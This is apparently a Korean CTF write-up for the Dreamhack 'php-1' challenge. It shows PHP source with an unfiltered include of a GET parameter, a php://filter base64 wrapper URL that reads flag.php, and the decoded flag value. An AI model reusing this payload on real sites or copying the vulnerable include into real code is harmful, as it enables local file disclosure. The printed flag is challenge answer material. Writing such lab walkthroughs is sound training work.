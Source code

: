 https://honey-push-30b.notion.site/php-1-5634ab896f5143d8981c193e398d8df6
# 문제파일 다운로드

![문제.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9296985c-b0ee-4a0f-b013-2959310bee34/%EB%AC%B8%EC%A0%9C.png)

php-1 문제의 접속 정보와 문제파일을 다운로드 받을 수 있다. LFI를 이용하라고 문제에 힌트가 나와있고 플래그는 /var/www/uploads/flag.php에 있음을 알 수 있다. 다운로드 받으면 4개의 php 파일(index.php,list.php,main.php,view.php)을 받을 수 있다.

이때 LFI는 Local File Inclusion 의 약자로 php파일 내부에 있는 include ,include_once,require,require_once 함수를 통해 사용자의 입력값으로 페이지를 받는다면 Wrapper를 이용해 공격이 가능하다. 그러면 php파일에서 include나 require함수의 존재를 찾아보자.

# index.php

```python
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>PHP Back Office</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">PHP Back Office</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/?page=list">List</a></li>
            <li><a href="/?page=view">View</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/>
    <div class="container">
      <?php
          include $_GET['page']?$_GET['page'].'.php':'main.php';
      ?>
    </div> 
</body>
</html>
```

include $_GET[’page’]를 통해서 사용자로부터 page에 담긴 값을 받아서 있으면 그 값에.php를 붙인 페이지를 없다면 main.php를 읽어서 php 코드를 실행시키는 부분이 있음을 볼 수 있다. 처음에 이것을 제대로 찾지 못해서 한참 헤맸다.

# list.php

```python
<h2>List</h2>
<?php
    $directory = '../uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
        echo "<li><a href='/?page=view&file={$directory}{$value}'>".$value."</a></li><br/>";
    }
?>
```

../uploads/에 있는 파일들의 리스트를 보여주고 누르면 view페이지에 page의 값으로 그 파일을 넣어주어 전달해준다.

# main.php

```python
<h2>Back Office!</h2>
```

별 내용은 없고 index페이지에서 이 php코드가 실행되어서 보여지는 것을 보여주기 위한 main.php파일이다.

# view.php

```python
<h2>View</h2>
<pre><?php
    $file = $_GET['file']?$_GET['file']:'';
    if(preg_match('/flag|:/i', $file)){
        exit('Permission denied');
    }
    echo file_get_contents($file);
?>
</pre>
```

처음에 이 view.php에서 한참 헤맸다. preg_match로 /flag나 : 가 필터링 되어있기에 이 페이지말고 다른 페이지를 통해서 접근 해야 한다.

# 문제 풀이

[https://learn.dreamhack.io/15#40](https://learn.dreamhack.io/15#40) 에 있는 Wrapper 중 php://filter는 내가 원하는 방식을 이용하여 원하는 파일을 출력시킬수있다. 바로 원하는 파일을 출력하지 않는 이유는 원하는 파일이 php태그가 있는 파일인경우 include내에서 출력되면 php코드를 인식하여 출력해주기 때문이다. 즉 소스코드 전체를 보기위해서는 소스코드를 base64로 인코딩하여 php코드로 인식못하게 만들어 출력한 후 그 값을 디코딩하여 소스코드를 추출한다.

index.php 페이지를 잠깐 살펴보자 

```python

    <div class="container">
      <?php
          include $_GET['page']?$_GET['page'].'.php':'main.php';
      ?>
    </div> 
```

index 페이지에서 필터링 없이 page를 사용자로 부터 get으로 받아 include로 포함시키는 부분이 있으므로 문제에서 언급한 flag.php의 위치인 /var/www/uploads/flag를 이용해서 출력해주자. 이 때 index.php의 코드를 자세히 살펴보면 .php는 사용자의 입력값에다가 추가로 뒤에 붙여주므로 .php를 써주면 안된다.

![flag.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/256e7d6e-8ade-46bc-b30d-fdfe02594f12/flag.png)

따라서 http://host3.dreamhack.games:9222/?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag 를 통하여 flag.php를 출력하였다. 

가려져서 잘 안보이지만 복사해보면 PD9waHAKCSRmbGFnID0gJ0RIe2JiOWRiMWYzMDNjYWNmMGYzYzkxZTBhYmNhMTIyMWZmfSc7Cj8+CmNhbiB5b3Ugc2VlICRmbGFnPw== 가 출력되며 소스코드가 base64로 인코딩 된 값이 나온다.

[https://www.convertstring.com/ko/EncodeDecode/Base64Decode](https://www.convertstring.com/ko/EncodeDecode/Base64Decode) 에서 base64 디코딩을 해주었다.

![디코딩.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4a63a2f5-456a-4f00-92e1-da9db5496bf5/%EB%94%94%EC%BD%94%EB%94%A9.png)

이를 base64 디코딩을 한 소스코드에서 플래그값인DH{bb9db1f303cacf0f3c91e0abca1221ff}를 찾을 수 있다.
